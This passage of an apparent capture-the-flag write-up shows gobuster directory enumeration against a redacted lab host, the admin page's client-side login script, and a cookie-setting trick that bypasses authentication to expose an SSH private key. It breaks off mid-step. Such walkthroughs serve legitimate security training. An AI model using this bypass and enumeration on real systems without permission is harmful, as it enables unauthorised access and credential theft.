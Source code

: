 Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  
/admin                (Status: 301) [Size: 42] [--> /admin/]  
/css                  (Status: 301) [Size: 0] [--> css/] 
```

Also see: [gobuster.log](gobuster.log)

## PHASE 3: Gaining Access

Started by looking at `/admin/` page to see if there was anything exploitable.

### Unprivileged Access

Javascript on the `/admin/` page has a simple check (note the `else` clause):

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Basically, if the `SessionToken` cookie is set, that is all you need to be "logged in". This is the [OWASP definition of Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication).

To get around this, we go into Developer Tools (<kbd>F12</kbd>) to execute:

```javascript
Cookies.set("SessionToken", "")
```

Then, refresh the page. You will be logged in and will see an exposed SSH private key. Capture that (to `./james_id_rsa`). We need to run:

